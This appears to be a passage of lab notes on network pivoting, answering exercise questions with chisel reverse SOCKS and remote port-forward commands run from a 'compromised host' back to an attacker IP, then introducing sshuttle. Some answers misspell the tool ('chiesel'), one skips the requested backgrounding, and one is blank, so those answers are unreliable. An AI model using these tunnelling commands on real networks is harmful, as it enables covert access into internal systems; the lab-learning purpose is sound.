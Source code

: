 As with the backgrounded socat processes, when we want to destroy our chisel connections we can use jobs to see a list of backgrounded jobs, then kill %NUMBER to destroy each of the chisel processes.

Note: When using Chisel on Windows, it's important to remember to upload it with a file extension of .exe (e.g. chisel.exe)!


What command would you use to start a chisel server for a reverse connection on your attacking machine?

Use port 4242 for the listener and do not background the process.

```
./chisel server -p 4242 --reverse
```


What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?

```
./chiesel client 172.16.0.200:4242 R:socks &
```

How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.

```
./chiesel client 172.16.0.200:1337 R:33060:172.16.0.100:3306
```

```
If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?


```

## sshuttle

Finally, let's take a look at our last tool of this section https://github.com/sshuttle/sshuttle

This tool is quite different from the others we have covered so far. It doesn't perform a port forward, and the proxy it creates is nothing like the ones we have already seen. Instead it uses an SSH connection to create a tunnelled proxy that acts like a new interface. In short, it simulates a VPN, allowing us to route our traffic through the proxy without the use of proxychains (or an equivalent). We can just directly connect to devices in the target network as we would normally connect to networked devices. As it creates a tunnel through SSH (the secure shell), anything we send through the tunnel is also encrypted, which is a nice bonus. We use sshuttle entirely on our attacking machine, in much the same way we would SSH into a remote server.

Whilst this sounds like an incredible upgrade, it is not without its drawbacks. For a start, sshuttle only works on Linux targets. It also requires access to the compromised server via SSH, and Python also needs to be installed on the server. That said, with SSH access, it could theoretically be possible to upload a static copy of Python and work with that. These restrictions do somewhat limit the uses for sshuttle; however, when it is an option, it tends to be a superb bet!

First of all we need to install sshuttle. On Kali this is as easy as using the apt package manager:
```
sudo apt install sshuttle
```
The base command for connecting to a server with sshuttle is as follows:
```
sshuttle -r username@address subnet 
```
